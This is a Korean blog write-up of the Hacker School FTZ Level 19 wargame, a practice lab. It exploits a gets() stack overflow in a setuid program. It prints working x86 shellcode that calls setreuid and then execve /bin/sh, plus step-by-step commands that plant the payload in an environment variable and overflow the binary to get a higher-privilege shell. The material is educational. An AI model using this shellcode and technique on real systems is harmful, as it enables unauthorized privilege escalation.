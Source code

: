 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 19"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level19/1.jpg" | relative_url }}' alt='relative'>  

## 1) level19/swimming in pink 입력해 로그인  

``` c 
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level19/2.jpg" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level19/3.jpg" | relative_url }}' alt='relative'>  

코드를 통해 gets 함수를 사용해 입력 길이에 제한을 두지 않았다는 것을 확인하였고,  
gdb로 분석해보니 buf 배열은 ebp에서 40 byte 떨어진 주소에 위치하고 bof를 방지하는 보안 대책이 없다는 것을 확인했습니다.  

RET에 쉘코드가 저장된 위치의 주소를 입력해 bof를 일으키면 쉘은 실행됩니다.  
문제는 level19 권한의 쉘이 실행된다는 것입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/4.jpg" | relative_url }}' alt='relative'>  

앞서 문제에서는 프로그램 코드 내에 setreuid 함수가 호출됐었습니다.  
그러나 이번 문제에서는 setreuid 함수가 호출되지 않았습니다.  
따라서 이번 문제를 풀기 위해선 쉘코드에 setreuid 함수를 호출하는 기계어 코드를 넣어줘야 합니다.    

## 2) 쉘코드에 setreuid 함수 호출하는 기계어 추가하기  

모든 프로세스별로 Real User ID(RUID), Effective User ID(EUID), Saved User ID(SUID)가 있습니다.  
RUID는 시스템에 접속한 사용자의 ID입니다. 프로세스를 시작하는 사용자를 결정하는 데 사용됩니다.    
EUID는 프로세스에 대한 권한을 결정합니다. 프로그램에 SetUID가 설정되어 있다면 프로세스의 권한은 일시적으로 user의 ID를 갖습니다.  
SUID는 이전 EUID 값을 저장하는 데 사용됩니다. SUID로 이전 EUID를 복원할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/5.jpg" | relative_url }}' alt='relative'>  

SetUID가 설정된 attackme 파일을 실행하기 전에는 RUID=level19, EUID=level19 입니다.
attackme 프로그램이 실행하면 EUID(level19)를 SUID에 복사한 뒤, EUID는 level20 user의 ID를 일시적으로 갖습니다.  
attackme 프로세스가 종료하면 SUID에 저장되어 있던 값을 EUID에 복사하여 기존 권한으로 전환합니다.  

프로그램 내에서 setreuid를 호출하지 않기 때문에 main 함수가 종료되면서 EUID는 level19 권한으로 전환되고  
쉘코드가 저장되어 있는 위치에 가서 쉘코드를 실행시키더라도  
쉘코드에서는 execve 함수만 호출하기 때문에 RUID, EUID(level19) 권한으로 쉘이 실행됩니다.  

따라서 쉘코드에 setreuid 함수를 호출하는 기계어를 추가해야 합니다.  

<a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html#setreuid">setreuid 함수 호출이 포함된 쉘코드 작성 방법</a>  


위 문서를 참고하여 setreuid 함수 호출 코드가 포함된 39 byte의 쉘코드를 만들 수 있었습니다.    

``` bash
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

## 3) attackme에 bof 일으켜 level20 권한의 shell 획득하기  

1. EGG 환경변수에 쉘코드 저장  

``` bash
export EGG=`python -c 'print "\x90"*30+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*30'`
```

2. EGG 환경변수 주소 확인하기 (1)  

``` bash
echo 'int main() { printf("ADDR -> %p\n", getenv("EGG")); }' > getenv.c
```

3. EGG 환경변수 주소 확인하기 (2)  

``` bash
gcc -o getenv getenv.c
```

4. EGG 환경변수 주소 확인하기 (3)  

``` bash
./getenv
```

5. attackme bof 공격하기
``` bash
(python -c 'print "\x90"*44+"[쉘코드가 저장된 주소]"'; cat) | ./attackme
```


<img data-action="zoom" src='{{ "assets/ftz/level19/6.jpg" | relative_url }}' alt='relative'>  

